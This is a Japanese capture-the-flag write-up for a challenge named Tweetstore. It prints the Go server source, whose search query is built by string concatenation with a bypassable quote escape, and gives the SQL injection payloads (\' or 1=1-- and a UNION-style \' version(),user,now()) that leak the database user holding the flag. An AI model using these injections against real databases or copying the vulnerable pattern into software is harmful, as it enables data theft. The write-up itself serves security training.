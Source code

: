 # Tweetstore
150 pt (150 Solves)
```
Search your flag!
Server: [url]
```

<details>
  <summary>webserver.go</summary>
  
  ```golang
  package main

import (
	"context"
	"fmt"
	"log"
	"os"
	"strings"
	"time"
	
	"database/sql"
	"html/template"
	"net/http"

	"github.com/gorilla/handlers"
	"github.com/gorilla/mux"

	_"github.com/lib/pq"
)

var tmplPath = "./templates/"

var db *sql.DB

type Tweets struct {
	Url        string
	Text       string
	Tweeted_at time.Time
}

func handler_index(w http.ResponseWriter, r *http.Request) {

	tmpl, err := template.ParseFiles(tmplPath + "index.html")
	if err != nil {
		log.Fatal(err)
	}

	var sql = "select url, text, tweeted_at from tweets"

	search, ok := r.URL.Query()["search"]
	if ok {
		sql += " where text like '%" + strings.Replace(search[0], "'", "\\'", -1) + "%'"
	}

	sql += " order by tweeted_at desc"

	limit, ok := r.URL.Query()["limit"]
	if ok && (limit[0] != "") {
		sql += " limit " + strings.Split(limit[0], ";")[0]
	}

	var data []Tweets


	ctx, cancel := context.WithTimeout(context.Background(), 1*time.Second)
	defer cancel()

	rows, err := db.QueryContext(ctx, sql)
	if err != nil{
		http.Error(w, http.StatusText(500), 500)
		return
	}

	for rows.Next() {
		var text string
		var url string
		var tweeted_at time.Time

		err := rows.Scan(&url, &text, &tweeted_at)
		if err != nil {
			http.Error(w, http.StatusText(500), 500)
			return
		}
		data = append(data, Tweets{url, text, tweeted_at})
	}

	tmpl.Execute(w, data)
}

func initialize() {
	var err error

	dbname := "ctf"
	dbuser := os.Getenv("FLAG")
	dbpass := "password"

	connInfo := fmt.Sprintf("port=%d host=%s user=%s password=%s dbname=%s sslmode=disable", 5432, "db", dbuser, dbpass, dbname)
	db, err = sql.Open("postgres", connInfo)
	if err != nil {
		log.Fatal(err)
	}
}

func main() {

	initialize()

	r := mux.NewRouter()
	r.HandleFunc("/", handler_index).Methods("GET")

	http.Handle("/", r)
	http.ListenAndServe(":8080", handlers.LoggingHandler(os.Stdout, http.DefaultServeMux))
}
  ```
</details>

## 概要
ツイートの検索ができる。
- Search Word  
ワードフレーズ指定。`'`とか入力してたら`Internal Server Error`。
- Search Limit  
Limit指定。数字しか入力できないっぽい。使ってないので知らない

`'`は`\\'`にエスケープされるけど`\'`にすればエスケープされない。  
試しに`\' or 1=1--`やってみるとエラー吐かずに全部表示できた。  
`\' version(),version(),now()`すればバージョンとかの情報が手に入る。  

```
Watch@Twitter	PostgreSQL 12.3 (Debian 12.3-1.pgdg100+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 8.3.0-6) 8.3.0, 64-bit	2020-05-25 04:23:34.74622 +0000 +0000
```
1個めのversionは`Watch@Twitter`にかき消されてる。

## 解

ソースコード読むと`user`にflagが入っているようなので色々試してたら
`\' version(),user,now()`でflagがとれた。

```
ctf4b{is_postgres_your_friend?}	
```